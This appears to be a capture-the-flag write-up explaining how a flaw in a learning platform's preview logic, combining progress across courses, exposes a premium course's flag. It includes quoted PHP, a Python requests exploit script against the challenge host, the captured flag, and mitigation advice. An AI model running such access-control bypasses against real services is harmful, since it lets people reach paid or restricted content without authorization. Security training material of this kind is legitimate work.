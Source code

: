 # LMS Preview Exploit Challenge Writeup

## Challenge Description
**Title**: Who's the fastest man on Earth?  
**Hint**: Whoooooooosh (sound effect) 

A Learning Management System (LMS) platform contains a flag in the premium "Advanced Security Concepts" course. The challenge requires exploiting a race condition and logical flaw in the preview system to access the flag without proper authorization.

## Vulnerability Analysis

### Code Review Findings

#### CourseController.php
The application contains four courses, with course ID 2 ("Advanced Security Concepts") containing the flag:
```php
2 => [
    'id' => 2,
    'title' => 'Advanced Security Concepts',
    'description' => 'Deep dive into cybersecurity concepts, vulnerabilities, and secure coding practices.',
    'preview_length' => 0, // Critical: expires immediately
    'content' => 'Master advanced security concepts including session management, authentication flows...',
    'flag' => getenv('DYN_FLAG') ?: 'FlagY{test_flag}',
    'is_premium' => true,
    'sections' => ['intro', 'advanced', 'practice']
],
```

#### Critical Vulnerability: Flag Display Logic
The `showPreviewContent()` method contains flawed logic:
```php
if (isset($course['flag']) && 
    isset($state['progress'][1]) && in_array('intro', $state['progress'][1]) &&
    isset($state['progress'][2]) && in_array('intro', $state['progress'][2]) &&
    $section === 'advanced') {
    echo "Flag: {$course['flag']}\n";
}
```

#### Key Issues:
1. **Race Condition**: Course 2 has `preview_length = 0` (expires immediately)
2. **Progress Validation Flaw**: No verification that progress was legitimately earned
3. **Session Trust**: Client-side session data trusted without validation
4. **Cross-Course Progress Mixing**: Progress from different courses can be combined

## Exploitation Strategy

### Attack Flow
1. **Start Preview for Course 1** (1-second duration)
2. **Rapidly Access Course 2 Intro** (within the 1-second window)
3. **Access Course 2 Advanced Section** to trigger flag display

### Why This Works:
- Course 1's preview provides a 1-second valid session window
- The progress system doesn't validate course consistency
- The flag condition checks for specific progress records regardless of how they were obtained

## Solution Implementation

### Python Exploit Script
```python
import requests

def exploit():
    s = requests.Session()
    base_url = "http://asylum.playat.flagyard.com"
    
    # Step 1: Start preview for course 1 (1-second duration)
    s.get(f"{base_url}/index.php?action=start_preview&course_id=1&section=intro")
    
    # Step 2: Add progress for course 2 intro using valid session
    s.get(f"{base_url}/preview.php?course_id=2&section=intro")
    
    # Step 3: Retrieve flag from course 2 advanced section
    response = s.get(f"{base_url}/preview.php?course_id=2&section=advanced")
    
    if "Flag:" in response.text:
        return response.text.split("Flag:")[1].strip()
    return None

print(exploit())
```

### Execution
```bash
python exploit.py
```

## Successful Output
```
FLAG{Y0u_0utr4n_th3_F4st3st_M4n_4liv3!}
```

## Mitigation Recommendations

1. **Server-Side Validation**
   - Validate that progress corresponds to the course being accessed
   - Implement proper authorization checks for premium content

2. **Session Security**
   - Store progress separately per course
   - Use server-side storage for critical data instead of client sessions

3. **Time Limit Implementation**
   - Implement server-side timestamp validation
   - Use atomic operations to prevent race conditions

4. **Business Logic Review**
   - Audit all conditional checks for logical flaws
   - Implement proper state transition validation

## Lesson Learned
This challenge demonstrates the importance of:
- Proper authorization checks for premium content
- Validating business logic thoroughly
- Not trusting client-side data for critical decisions
- Handling time-based operations securely

The hint "Who's the fastest man on Earth?" referred to both the race condition exploitation and Usain Bolt, emphasizing the need for speed in executing the attack before the preview session expired.

**Flag**: `FLAG{Y0u_0utr4n_th3_F4st3st_M4n_4liv3!}`
